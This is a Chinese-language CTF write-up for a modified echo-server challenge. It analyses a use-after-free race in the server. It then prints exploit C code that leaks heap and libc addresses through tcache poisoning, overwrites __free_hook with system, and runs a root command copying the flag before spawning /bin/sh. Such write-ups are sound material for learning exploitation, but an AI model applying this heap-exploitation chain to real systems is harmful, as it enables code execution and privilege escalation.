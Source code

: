 ## 一、题目分析

附件提供了三个文件，通过查看题目代码可以知道：echo_server用来监听本机的一个端口，题目要求我们传入一个elf文件，之后会将读的文件执行起来，需要用传入的文件来和服务做一个交互。

其实就是魔改了一下回声服务器：https://blog.csdn.net/hanqing280441589/article/details/44259939  （可以看看这个博客了解一下）

## 二、漏洞分析

```    write(c1, "a", 0x20);    write(c2, "b", 0x20);    usleep(1000)();        write(c2, "c", 4);    close(c1);
```

我们将题目提供的源码用asan编译一下可以看到uaf漏洞的产生：

![](./img/1.png)

我们加入一些puts和getchar分析一下：

如果我们将write和close用getchar分开，就可以保证正常的执行如下图：
![](./img/3.png)

去掉getchar可以看到：
![](./img/4.png)

很明显可以看到正常流程为先完成三次read，之后执行close，但是现在close抢在第三次read之前执行，导致了uaf。
我们去调试一下：
cf00位置是fd：04，后面是存放字符串的chunk指针
![](./img/7.png)
析构后，原04的位置复制为了05和其对应的chunk指针
![](./img/8.png)
但是之后read依旧找旧05的位置，此时他的chunk为已free的原04的chunk。
![](./img/9.png)
调试了一下析构的过程发现它会将两个fd的chunk指针交换。


## 写exp (主要参考了http://blog.redrocket.club/2020/08/30/google-ctf-quals-2020-echo/  ，简单调了调)

libc版本：glibc2.31

#### 1、leak

###### leak heap

- 泄漏heap的地址主要依靠glibc2.29引入的key指针，我们都知道它指向堆开头的tcache_perthread_struct结构的地址，我们将他泄漏就可以得到堆基址。

准备阶段：

- 申请0x10000大小的大chunk（主要保证之后低地址覆盖时可以正好落入大chunk）
- 申请小chunk
- 将其中一个free进入tcache
- 之后利用uaf低字节修改tcache fd，目的是下次分配之后，key值就会落入准备好的0x1000中
- 输出大chunk，在里面查找key值，即可泄漏出heap基地址

低字节修改后：

![](./img/5.png)

key值落入0x10000大chunk

![](./img/6.png)

```
    write(conns[13], "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    yield();
    write(conns[14], "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(conns[15], "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();

    // close A buffer, places pointer to it in tcache freelist head
    close(conns[13]);
    yield();

    // bug: free B, and auf write two nullbytes into free'd B memory.
    // partially overwrites tcaches next pointer pointing to A.
    write(conns[15], "\0", 1);
    close(conns[14]);
    yield();

    // allocate two 0x30 chunks, Y is likely to be placed inside the 0x10000 area
    conns[13] = conn();
    conns[14] = conn();
    write(conns[13], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    yield();
    write(conns[14], "YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY", 0x20);
    yield();

    // free Y chunk, writes heap base into 0x10000 area
    close(conns[14]);
    yield();

    // read the buffer back in by sending '\n'
    write(conns[0], "\n", 1);
    // skip the hello message, linus would insult me for writing this code
    do {
        read(conns[0], chunk, 1);
    } while(*chunk != '\n');
    readall(conns[0], chunk, 0x10000);

    // search for heap address
    size_t *leak = memmem(chunk, 0x10000, "YYYYYYYY", 8);
    if (!leak) {
        puts("heapbase not found :(");
        exit(0);
    }
    size_t heapbase = leak[-1];
    printf("heapbase located at: 0x%lx\n", heapbase);
```


###### leak libc

- 构造0x30的chunk覆盖到0x810大小的chunk的位置
![](./img/10.png)
![](./img/11.png)
通过write（‘\n’）free掉0x810的chunk
![](./img/12.png)
这样可以泄漏libc基址了

```
close(conns[15]);
    close(conns[13]);
    yield();
    conns[13] = conn();
    yield();
    conns[14] = conn();
    yield();
    conns[15] = conn();
    write(conns[13], "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    write(conns[14], "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(conns[15], "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();
    close(conns[13]);
    yield();

    // bug again: overwrite tcache pointer
    size_t addr = heapbase + OFFSET_HEAP;
    write(conns[15], &addr, 7);
    close(conns[14]);
    yield();

    // allocates fake chunk over filler chunk 5's header
    conns[13] = conn();
    conns[14] = conn();
    write(conns[13], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    ((size_t*)chunk)[0] = 0;
    ((size_t*)chunk)[1] = 0x811;
    ((size_t*)chunk)[2] = 0;
    ((size_t*)chunk)[3] = 0;
    write(conns[14], chunk, 0x20);
    yield();

    // free chunk 5
    write(conns[5], "\n", 1);
    yield();

    // trigger a realloc (because heap is overlapping, this will lead to problems) and send leaked data out
    write(conns[14], "YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY\n", 0x40);
    yield();

    // read in the libc leak
    do {
        read(conns[14], chunk, 1);
    } while(*chunk != '\n');
    read(conns[14], chunk, 0x20);
    leak = (size_t*)chunk;
    if (leak[1] == 0x811) {
        puts("libc leak not found :(");
        exit(0);
    }
    printf("leaked: %lx %lx %lx %lx\n", leak[0], leak[1], leak[2], leak[3]);
    size_t libcbase = leak[2] -= OFFSET_LIBC;
    printf("libc located at: 0x%lx\n", libcbase);

```

###### get shell

修改free_hook 很常规

```
    int x, y, z;
    x = conn();
    yield();
    y = conn();
    yield();
    z = conn();
    yield();
    write(x, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    write(y, "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(z, "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();
    close(x);
    yield();

    // bug again: overwrite tcache pointer to point at free hook
    addr = libcbase + OFFSET_FREE_HOOK;
    write(z, &addr, 7);
    close(y);
    yield();

    // get chunk overlapping the free hook, overwrite it with system
    write(conns[10], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    yield();
    memset(chunk, 0, 0x20);
    *(size_t*)chunk = libcbase + OFFSET_SYSTEM;
    write(conns[11], chunk, 0x20);
    yield();

    // create chunk with command to be executed
    x = conn();
    write(x, "/bin/cp /root/flag /tmp; /bin/chmod a+r /tmp/flag\0", 0x50);
    // free the chunk, executes the command as root
    close(x);

    // we can now cat /tmp/flag
    fflush(stdout);
    system("/bin/sh");
    return 0;
```

![](./img/13.png)






